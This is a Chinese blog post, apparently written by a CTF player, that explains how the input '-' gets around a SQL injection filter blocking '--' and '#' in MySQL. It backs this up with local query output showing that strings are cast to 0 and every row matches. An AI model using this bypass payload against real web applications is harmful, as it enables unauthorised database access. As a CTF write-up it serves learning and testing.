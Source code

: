 ```yaml
---
layout:     post
title:      mysql中有趣的'-'
subtitle:   
date:       2017-04-20
author:     sp4rk
header-img: 
catalog: true
tags:
    - mysql
	- sql injection
---
```




今天在做ctf的时候碰到一个有趣的点: [题目链接](http://www.hetianlab.com/cour.do?w=1&c=C172.19.104.182014110420390600002)
在测试的时候发现其中过滤了'-- a'和#注释符
![](/img/k.jpg)

无意间输入'-',没想到直接就bypass了。
![](/img/l.png)
本地测试了下
正常的语句：


<!--more-->


mysql> select * from users where user='test';
+---------+------+----------------------------------+
| user_id | user | password                         |
+---------+------+----------------------------------+
|       1 | test | 1f903e58cd22b9d807a791d897daafb6 |
+---------+------+----------------------------------+
1 row in set (0.00 sec)
'-'测试，可以发现能注入，有两个warning
mysql> select * from users where user=''-'';
+---------+------+----------------------------------+
| user_id | user | password                         |
+---------+------+----------------------------------+
|       1 | test | 1f903e58cd22b9d807a791d897daafb6 |
+---------+------+----------------------------------+
1 row in set, 2 warnings (0.00 sec)
mysql> show warnings;
+---------+------+------------------------------------------+
| Level   | Code | Message                                  |
+---------+------+------------------------------------------+
| Warning | 1292 | Truncated incorrect DOUBLE value: 'test' |
| Warning | 1292 | Truncated incorrect DOUBLE value: 'test' |
+---------+------+------------------------------------------+
2 rows in set (0.00 sec)
显示截断了错误的DOUBLE值，我们具体看一下
mysql> select ''-'';
+-------+
| ''-'' |
+-------+
|     0 |
+-------+
1 row in set (0.00 sec)
mysql> select '1'-'1';
+---------+
| '1'-'1' |
+---------+
|       0 |
+---------+
1 row in set (0.00 sec)
mysql> select '1'-'a';
+---------+
| '1'-'a' |
+---------+
|       1 |
+---------+
1 row in set, 1 warning (0.00 sec)
可以发现当有''和字母的时候，在mysql中参与运算是取0。'-'造成注入是因为每一次查询中上面数据库中的test值会与0作比较，test就会转换成0与其匹配成功造成注入。（其他运算符也可以）